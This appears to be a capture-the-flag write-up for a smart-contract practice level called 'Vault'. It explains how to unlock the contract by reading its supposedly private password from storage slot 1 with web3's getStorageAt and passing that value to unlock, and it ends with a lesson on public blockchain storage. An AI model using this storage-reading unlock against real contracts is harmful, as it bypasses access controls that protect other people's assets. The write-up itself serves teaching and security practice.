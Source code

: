 # Vault

# Problem Statement
```
Unlock the vault to pass the level!
```


# Solution
Check the `locked` status:
```
await contract.locked()
```
Get the storage data in the `password` slot which is 1:
```
const hexPassword = await web3.eth.getStorageAt(contract.address, 1, console.log)
```
Call the unlock method with the password:
```
const data = web3.eth.abi.encodeFunctionCall({ name:'unlock', type:'function', inputs:[{type:'bytes32', name:'_password'}]}, [hexPassword])
await web3.eth.sendTransaction({from:player, to:contract.address, data:data})
```

We've completed this lesson!

# Key Learnings
- Storage data is always publically visible so make sure to encrypt your private data if you have to store it on the blockchain

